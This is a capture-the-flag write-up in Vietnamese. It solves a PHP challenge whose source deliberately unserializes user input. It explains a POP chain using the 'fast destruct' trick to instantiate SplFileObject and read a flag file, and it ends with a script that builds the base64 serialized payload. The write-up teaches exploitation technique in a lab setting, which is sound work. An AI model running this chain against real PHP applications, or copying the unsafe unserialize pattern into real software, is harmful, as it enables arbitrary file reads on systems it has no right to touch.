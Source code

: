 # Solution

Source code:
```php
<?php

highlight_file(__FILE__);

class main{
    public $class;
    public $param;
    public function __construct($class="test",$param="Onion")
    {
        $this->class = $class;
        $this->param = $param;
        echo new $this->class($this->param);
    }
    public function __destruct(){
        echo new $this->class->cc($this->param);
    }

}

class test{
    var $str;
    public function __construct($str)
    {
        $this->str = $str;
        echo ("Welcome to ".$this->str);
    }
}

class do_nothing{
    public $a;
    public $b;
    public function __construct($a,$b){
        $this->a = $a;
        $this->b = $b;
    }
    public function __get($method){
        if(isset($this->a)){
            return $this->b;
        }
        return $method;
    }
}

if(isset($_GET['payload'])){
    unserialize(base64_decode($_GET['payload']));
    throw new Exception("ga");
}
else{
    $main = new main;

}
```

Đây là một bài [POP CHAIN](https://to016.github.io/posts/phpPopChain/) sử dụng kĩ thuật `fast destruct`.

Ở đây dễ thấy method `__destruct__` sẽ trigger gadgets.
Đập vào mắt mình tiếp theo đó là `__get` method của `do_nothing` ở đây để ý method này + `echo new $this->class->cc($this->param);` của `main`.

```php
$d = new do_nothing("ba", "la");
echo $d -> c;
```

Output: `la`

Vậy nếu gán `$class` của `main` thành `do_nothing`, `$a=1` và `$b=<tên hàm>` và truyền thông số cho hàm thông qua `$param` của `main` thì có thể tạo được một class bất kì kèm với một tham số.

Tác giả dùng `echo new $this->class->cc($this->param);` => sẽ trigger method `__toString` của class vừa được tạo.

Và tiếp theo mình viết script để tìm các built-in class trong php có method `__toString`:

```php
$declared_classes = get_declared_classes();

foreach ($declared_classes as $cls){
    if(method_exists($cls, '__toString'))
    {
        echo "FOUND: " . $cls. "\n";
    }
}
```

Sau khi search ở `php.net` thì mình tìm ra được 2 class quan trọng để solve bài này
- `FilesystemIterator`: để tìm vị trí file flag
- `SplFileObject`: để đọc file

Còn về cách áp dụng kĩ thuật `fast destruct` để bypass `throw new Exception("ga");` thì xem tại [đây](https://github.com/hinemo123/WriteUp/tree/master/Deserialize).


Script:

```php
<?php 

class main {}

class do_nothing{
    public $a = 1;
    public $b = "SplFileObject";
}


$dnth = new do_nothing();


$m = new main();
$m -> class = new do_nothing();
$m -> param = "./ahyeah_flag_here_cat_me_plss/flag.php";

#echo serialize(array(1 => $m, 2 => 2));
echo base64_encode('a:2:{i:1;O:4:"main":2:{s:5:"class";O:10:"do_nothing":2:{s:1:"a";i:1;s:1:"b";s:13:"SplFileObject";}s:5:"param";s:39:"./ahyeah_flag_here_cat_me_plss/flag.php";}i:1;i:2;}');
```
